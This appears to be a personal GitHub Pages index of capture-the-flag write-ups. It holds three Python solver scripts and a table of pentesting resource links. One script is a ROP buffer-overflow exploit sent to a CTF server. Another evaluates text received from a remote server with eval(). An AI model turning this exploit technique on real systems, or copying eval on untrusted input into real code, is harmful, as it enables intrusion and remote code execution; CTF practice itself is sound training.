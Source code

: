 ```yaml
---
layout: default
---            
```

|<script src="https://tryhackme.com/badge/60599"></script> |<script src="https://www.hackthebox.eu/badge/277042"></script>|

[Hack the Box Write Ups](./htb.md)
[Try Hack Me Write Ups](./thm.md)

### What about emoji?

```py
#!/usr/bin/env python3

from pwn import *
import re

r = remote("46.101.22.121",30437)
r.recv()
r.sendline("1")
d = r.recv().decode()
e = r.recv().decode()
print(d)
print(e)

emojis = {
"🌞" : re.findall("🌞 -> (\d+)",d)[0],
"🍨" : re.findall("🍨 -> (\d+)",e)[0],
"❌" : re.findall("❌ -> (\d+)",e)[0],
"🍪" : re.findall("🍪 -> (\d+)",e)[0],
"🔥" : re.findall("🔥 -> (\d+)",e)[0],
"⛔" : re.findall("⛔ -> (\d+)",e)[0],
"🍧" : re.findall("🍧 -> (\d+)",e)[0],
"👺" : re.findall("👺 -> (\d+)",e)[0],
"👾" : re.findall("👾 -> (\d+)",e)[0],
"🦄" : re.findall("🦄 -> (\d+)",e)[0]
}

print(str(emojis))

r.sendline("2")

for i in range(1,501):
	ques = r.recv().decode()

	print(ques)

	equation = ''
	for c in ques:
		if c in emojis:
			equation = equation + ' ' + emojis[c]
		elif c in ['*','-','+','-']:
			equation = equation + ' ' + c

	res = eval(equation)
	print(res)
	r.sendline(str(res))

flag = r.recv().decode()

print(flag)
```
### What about BOF?

```py
#!/usr/bin/env python3
from pwn import *

#p = process('./easyrop')
p = remote('hsg1.superhero1.com', 9002)
e = ELF('./easyrop')

ckpt1 = p64(e.symbols.checkpoint1) # finds address
ckpt2 = p64(e.symbols.checkpoint2)
secret = p64(e.symbols.secret)
#print(ckpt1, ckpt2)

# start interaction
# padding 
padding = b'A' *0x68  # 96 + 8 
payload = padding
payload += ckpt1
payload += ckpt2
payload += secret

p.sendline(payload)
data = p.recvall()
print(data)
```

### What about NTP you ask?
```py
#!/usr/bin/env python3
import struct
import socket
import time
import datetime

#  lib8time.cityinthe.cloud port 2038
# Create a UDP socket
sock = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)

# Bind the socket to the port
server_address = ('lib8time.cityinthe.cloud', 2038)

# Calculate current time
t = int(time.time())

# Create the packet data
packet = struct.pack('>hiqq',4919,1,t,int((time.time() % 1)*1000000))

# Send packet and get response
sock.sendto(packet, server_address)
data, address = sock.recvfrom(4096)

# Unpack the response
r = struct.unpack('>hiqqqq',bytes(data))
print(r)

# Parse the response
ct_s = r[2]
st_s = r[4]
ct_m = r[3]
st_m = r[5]

# Parse the time and convert to readable format in UTC
client_time = time.strftime('%Y-%m-%d %H:%M:%S', time.gmtime(ct_s))
server_time = time.strftime('%Y-%m-%d %H:%M:%S', time.gmtime(st_s))
print("Client time now (UTC):{}".format(client_time))
print("Server time now (UTC):{}".format(server_time))

# Calculate the difference in Hours
print("Hours difference: {}".format((st_s-ct_s)/3600))
```

<script src="https://platform.linkedin.com/badges/js/profile.js" async defer type="text/javascript"></script>
<div class="badge-base LI-profile-badge" data-locale="en_US" data-size="medium" data-theme="dark" data-type="VERTICAL" data-vanity="cyber-consultant" data-version="v1">
</div>

<h3 id="useful-links">Useful links</h3>

<table>
  <thead>
    <tr>
      <th>Link</th>
      <th>Description</th>
    </tr>
  </thead>
  <tbody>
    <tr>
      <td><a href="https://tryhackme.com">TryHackMe</a></td>
      <td>TryHackMe - Learn Penetration Testing Skills</td>
    </tr>
    <tr>
      <td><a href="https://hackthebox.eu">HackTheBox</a></td>
      <td>HackTheBox - Learn Penetration Testing Skills</td>
    </tr>
    <tr>
      <td> </td>
      <td> </td>
    </tr>
    <tr>
      <td><a href="https://book.hacktricks.xyz/">HackTricks</a></td>
      <td>Tricks and Techniques</td>
    </tr>
    <tr>
      <td><a href="https://gtfobins.github.io">GTFOBins</a></td>
      <td>Quick Shell One-liners</td>
    </tr>
    <tr>
      <td><a href="https://www.revshells.com">RevShells</a></td>
      <td>Reverse Shell Command Generator</td>
    </tr>
    <tr>
      <td> </td>
      <td> </td>
    </tr>
    <tr>
      <td><a href="https://pentest.ws">PenTest.WS</a></td>
      <td>Engagement Utility</td>
    </tr>
    <tr>
      <td> </td>
      <td> </td>
    </tr>
    <tr>
      <td><a href="https://explainshell.com">ExplainShell</a></td>
      <td>Bash Shell Command Explanation</td>
    </tr>
    <tr>
      <td><a href="https://ss64.com">SS64</a></td>
      <td>Commandline Reference</td>
    </tr>
    <tr>
      <td> </td>
      <td> </td>
    </tr>
    <tr>
      <td><a href="https://crackstation.net">CrackStation</a></td>
      <td>Online Hash Cracking</td>
    </tr>
    <tr>
      <td><a href="https://gchq.github.io/CyberChef">CyberChef</a></td>
      <td>The Cyber Swiss Army Knife for analysing/encoding/decoding data</td>
    </tr>
    <tr>
      <td><a href="https://www.dcode.fr/en">dCode</a></td>
      <td>dCode is a toolkit website for decryption, ciphertexts</td>
    </tr>
    <tr>
      <td> </td>
      <td> </td>
    </tr>
    <tr>
      <td><a href="https://alomancy.gitbook.io/guides/">Guides</a></td>
      <td>In Depth Guides by <a href="https://www.twitch.tv/alomancy">Alomancy</a></td>
    </tr>
  </tbody>
</table>

<h3 id="credits">Credits</h3>

<p>Huge shoutout to <a href="https://twitch.tv/chadb_n00b">chadb_n00b</a> and to <a href="https://infosecstreams.github.io/">infosecstreams</a>for starting up and initially maintaining the list!</p>
